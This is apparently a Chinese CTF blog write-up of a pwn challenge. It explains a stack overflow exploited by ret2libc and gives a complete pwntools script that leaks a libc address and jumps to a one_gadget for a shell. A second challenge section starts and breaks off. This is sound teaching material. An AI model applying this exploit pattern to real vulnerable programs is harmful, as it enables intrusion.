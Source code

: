 ```yaml
---
layout: post
title:  "铁三福建赛区pwn回顾"
date:   2018-09-12 19:12:00
categories: WriteUp
tags: WriteUp PWN 铁三
---
```


* content
{:toc}


建了新博客开始还是写点东西存着，不然空空的感觉也不是很好，刚好看到文涛学长给我的铁三PWN题，当时我连涛神写的exp都看不懂，现在看看自己当初真的太菜了，所以现在重新看一遍题目来检验现在的实力





## ROP


### 思路

简单看了一遍程序，vuln函数明显的栈溢出，利用空间贼大，checksec检测下只开了NX，
直接ret2libc做ROP来getshell
### exp
```python
from pwn import*
context(os='linux',arch='i386',log_level='debug')
n = process('./rop')
elf = ELF('./rop')
libc = ELF('/lib/i386-linux-gnu/libc.so.6')
#libc = ELF('./libc32')

buf = 'a'*0x88
vuln_addr = 0x08048474
write_got = elf.got['write']
write_plt = elf.plt['write']
write_sym = libc.symbols['write']
bin_sh = libc.search('/bin/sh').next()
system_sym = libc.symbols['system']

leak = buf+'aaaa'+ p32(write_plt) +p32(vuln_addr)+ p32(1) + p32(write_got) + p32(0x4)
n.sendline(leak)
write_addr = u32(n.recv())
print hex(write_addr)

libc_base = write_addr - write_sym
system_addr = libc_base + system_sym
#one_gadget = 0x3a80c
one_gadget = 0x3ac5c + libc_base
payload = buf+ 'aaaa' + p32(one_gadget)
n.sendline(payload)

n.interactive()
```


## breakfast

### 思路

简单的审一遍代码发现

